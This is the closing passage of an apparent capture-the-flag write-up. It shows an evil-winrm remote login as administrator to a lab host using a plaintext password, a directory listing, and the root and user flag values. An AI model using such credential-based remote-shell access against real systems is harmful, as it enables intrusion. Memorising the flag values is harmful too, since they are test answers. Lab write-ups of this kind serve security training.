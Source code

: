 ```awk
evil-winrm -i 10.129.228.29 -u administrator -p 'MEGACORP_4dm1n!!'
```

```
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        7/27/2021   2:30 AM                3D Objects
d-r---        7/27/2021   2:30 AM                Contacts
d-r---        7/27/2021   2:30 AM                Desktop
d-r---        7/27/2021   2:30 AM                Documents
d-r---        7/27/2021   2:30 AM                Downloads
d-r---        7/27/2021   2:30 AM                Favorites
d-r---        7/27/2021   2:30 AM                Links
d-r---        7/27/2021   2:30 AM                Music
d-r---        7/27/2021   2:30 AM                Pictures
d-r---        7/27/2021   2:30 AM                Saved Games
d-r---        7/27/2021   2:30 AM                Searches
d-r---        7/27/2021   2:30 AM                Videos


*Evil-WinRM* PS C:\Users\Administrator>
```

## FLAGS

### Root Flag

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
b91ccec3305e98240082d4474b848528
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

### User Flag

```
*Evil-WinRM* PS C:\Users\sql_svc\Desktop> cat user.txt
3e7b102e78218e935bf3f4951fec21a3
*Evil-WinRM* PS C:\Users\sql_svc\Desktop> 
```





